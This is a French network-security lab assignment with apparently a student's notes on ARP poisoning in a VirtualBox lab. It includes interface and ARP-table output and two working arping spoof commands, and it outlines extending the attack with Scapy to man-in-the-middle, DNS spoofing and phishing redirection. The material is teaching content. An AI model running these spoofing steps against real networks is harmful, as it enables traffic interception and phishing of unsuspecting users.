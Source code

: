# TP4 : ARP Poisoning

- [TP4 : ARP Poisoning](#tp4--arp-poisoning)
  - [I. Setup](#i-setup)
  - [II. Premiers pas sur l'attaque](#ii-premiers-pas-sur-lattaque)
  - [III. Aller plus loin](#iii-aller-plus-loin)
    - [1. Scapy](#1-scapy)
    - [2. Pousser l'attaque](#2-pousser-lattaque)

## I. Setup

Il vous faudra trois machines :

- deux victimes
- un attaquant

Je vous laisse libre des détails concernant le setup, vous pouvez :

- utiliser GNS ou juste utiliser un réseau local avec votre hyperviseur (host-only avec VirtualBox)
- mettre en place un setup plus réaliste avec une des deux victimes qui est un routeur
  - le routeur donne accès internet à la victime
  - ainsi vous vous positionnez entre la victime et le routeur
- utiliser une distribution Linux orientée sécu peut être une bonne idée (Kali, BlackArch, etc.)

Assurez-vous que tout le monde se ping avant de continuer.

```bash
[dorian@router ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:29:6b:d0 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute enp0s3
       valid_lft 85976sec preferred_lft 85976sec
    inet6 fe80::a00:27ff:fe29:6bd0/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:6e:17:21 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.102/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s8
       valid_lft 478sec preferred_lft 478sec
    inet6 fe80::c965:f80c:3dc3:e09a/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
[dorian@victime ~]$ ip a
[...]
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:00:9a:bc brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.104/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s3
       valid_lft 462sec preferred_lft 462sec
    inet6 fe80::a00:27ff:fe00:9abc/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```bash
┌──(kali㉿kali)-[~]
└─$ ip a
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:53:0c:ba brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 85697sec preferred_lft 85697sec
    inet6 fe80::3714:c40d:6d5d:2b9d/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:b5:89 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.103/24 brd 192.168.56.255 scope global dynamic noprefixroute eth1
       valid_lft 497sec preferred_lft 497sec
    inet6 fe80::69d0:a74e:7511:e086/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

➜ **Tout le monde peut bien se ping**

## II. Premiers pas sur l'attaque

Pour les premiers pas sur l'attaque, on va utiliser juste deux outils :

- `arping` : ptit outil en ligne de commande qui permet d'envoyer des trames ARP
- Wireshark : pour visualiser la mise en place de l'attaque

Le principe de l'attaque pour rappel :

- envoyer des ARP request unsolicited en boucle à nos deux victimes
  - on indique au routeur que l'IP de la victime correspond à notre MAC (l'attaquant)
  - on indique à la victime que l'IP du routeur correpond à notre MAC (l'attaquant)
- une fois en place, on intercepte tout le trafic entre la victime et le routeur

➜ **Poisoning basique**

- **depuis l'attaquant, utiliser une commande [`arping`](https://sandilands.info/sgordon/arp-spoofing-on-wired-lan)**
  - utilisez-la pour écrire des données arbitraires dans la table ARP de la victime
  - vous pouvez vraiment forcer l'écriture de n'importe quoi, amusez vous avec la commande
  - genre la mac `aa:aa:aa:aa:aa:aa` qui correspond à l'IP `10.10.10.10.` peu importe, faites des tests
- **depuis la victime**
  - constatez les changements dans la table ARP
  - sous Linux c'est `ip neighbor show` pour voir la table ARP
  - on peut abréger cette commande en `ip n s`
- **depuis l'attaquant**
  - utilisez Wireshark pour voir les trames envoyées

```bash
[dorian@router ~]$ ip n s
192.168.56.241 dev enp0s8 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.104 dev enp0s8 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.100 dev enp0s8 lladdr 08:00:27:d2:59:36 STALE 
10.0.2.2 dev enp0s3 lladdr 52:54:00:12:35:02 STALE 
10.0.2.3 dev enp0s3 lladdr 52:54:00:12:35:03 STALE 
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE 
```

```bash
[dorian@victime ~]$ ip n s
192.168.56.102 dev enp0s3 lladdr 0a:00:27:00:00:00 STALE 
192.168.56.240 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.103 dev enp0s3 lladdr 08:00:27:41:b5:89 STALE 
192.168.56.1 dev enp0s3 lladdr 0a:00:27:00:00:00 REACHABLE 
192.168.56.100 dev enp0s3 lladdr 08:00:27:d2:59:36 STALE 
```

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.102 -I vboxnet0 192.168.56.104
ARPING 192.168.56.104 from 192.168.56.102 vboxnet0
```

```bash
[dorian@laptop-dorian ~]$ arping -c 100 -U -s 192.168.56.104 -I vboxnet0 192.168.56.102
ARPING 192.168.56.102 from 192.168.56.104 vboxnet0
```

## III. Aller plus loin

Pour aller plus loin, je ne connais pas de petit tool qui fait le café et fait tout, et c'est de toute façon plus amusant et formateur de le faire soi-même.

Le meilleur moyen reste donc de développer. Je recommande Python et la librairie Scapy.

Avec la librairie Scapy il est très facile, en une seule ligne de code, d'envoyer une trame complètement arbitraire sur le réseau.

C'est donc une libairie parfaite pour mettre en place une attaque réseau comme l'ARP poisoning.
    
### 1. Scapy

Le procédé que je vous recommande est le suivant :

➜ **Setup votre environnement de travail**

- [**Python**](https://www.python.org/downloads/) installé
- librairie [**Scapy**](https://scapy.readthedocs.io/en/latest/installation.html) installée (avec une commande `pip install`)
- un **IDE** (comme VSCode)

➜ **Apprendre à juste envoyer des trames basiques avec Scapy**

- des ping par exemple
  - la commande `ping` envoie des paquets de type ICMP
  - les paquets ICMP servent à plein de trucs, et il y a un identifiant pour chaque fonction, c'est un entier qui est indiqué dans le paquet ICMP
  - type `8` : *echo request* : c'est le ping
  - type `0` : *echo reply* : c'est le pong

> Les autres types ICMP servent à d'autres trucs que la commande `ping`. Voyez ICMP comme un protocole de diagnostic réseau.

- jouer avec ARP

> Gardez **Wireshark** ouvert pour tout le temps avoir un oeil sur ce qu'il se passe concrètement.

➜ Mettre en place la même attaque qu'avec `arping`

### 2. Pousser l'attaque

Pour aller plus loin sur l'attaque, comme on a discuté plus tôt en cours, le classique c'est :

- **ARP poisoning sur la victime et le routeur**
- agir soi-même comme un routeur de façon transparente, et faire suivre les trames vers les vrais destinataires (man-in-the-middle)
- **intercepter les requêtes DNS du client** qui sont en clair
- répondre de façon malicieuse
- guider la victime vers un site de phishing

Pour ce faiiire :

- il faudra encore utiliser **Scapy**
- je vous aiderai évidemment, mais commencez par Google, il y a énormément de code qui explique comment faire tout ça :)
